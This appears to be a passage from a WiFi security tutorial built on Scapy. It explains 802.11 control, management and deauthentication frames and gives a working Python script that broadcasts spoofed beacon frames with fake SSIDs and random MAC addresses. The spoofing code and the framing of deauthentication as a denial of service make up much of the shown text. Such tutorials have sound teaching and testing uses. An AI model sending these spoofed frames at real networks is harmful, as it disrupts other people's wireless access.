But maybe there are more interesting 'frame types' we can try. Lets look into them.

## Control frames
Because it's easy to sniff MAC addresses during regular use, for example: acknowledgment (ACK) frames when receiving a packet, we can cause more of a targeted nuisance, but it's not more exciting than, for example, turning on a microwave to make the 2.4Ghz band more noisy.

![control_frame]({{ "/assets/scapy_images/control_frame.png" | relative_url }})

## Management frames
Do any of these look like a possible denial of service to you?

![management_frame]({{ "/assets/scapy_images/management_frame.png" | relative_url }})

## Deauthentication frame
Completely unprotected, unencrypted, with no sessions attached, don’t even need to be associated with the WiFi network. You can spoof anything over the air with Scapy, so why not spoof the source address?

"Hey, I’m the router, get off my network!"

![deauth_frame]({{ "/assets/scapy_images/deauth_frame.png" | relative_url }})

Note here that `addr1 = Destination Address, addr2 = Source Address, addr3 = BSSID` where the `BSSID` is sort of an identifier for the wireless network you're on, usually this is the same as the router address.

# Exploitation time

## Spoofed beacons
Pretend to be any number of WiFi networks. Make it very hard to find the ones you want, or send messages!

```python
#!/usr/bin/env python2
from scapy.all import *

IFACE = 'mon0'
SSIDS = ['testing', 'the', 'beacons']

packets = []

for ssid in SSIDS:
    src = RandMAC()
    packets.append(RadioTap()
                   / Dot11(type=0, subtype=8, # Management beacon frame
                           addr1='ff:ff:ff:ff:ff:ff', # Broadcast address
                           addr2=src,
                           addr3=src)
                   / Dot11Beacon(cap='ESS+privacy')
                   / Dot11Elt(ID='SSID', info=ssid, len=len(ssid))
                   / Dot11Elt(ID='RSNinfo', info=(
                    '\x01\x00'
                    '\x00\x0f\xac\x02'
                    '\x02\x00'
                    '\x00\x0f\xac\x04'
                    '\x00\x0f\xac\x02'
                    '\x01\x00'
                    '\x00\x0f\xac\x02'
                    '\x00\x00')))

```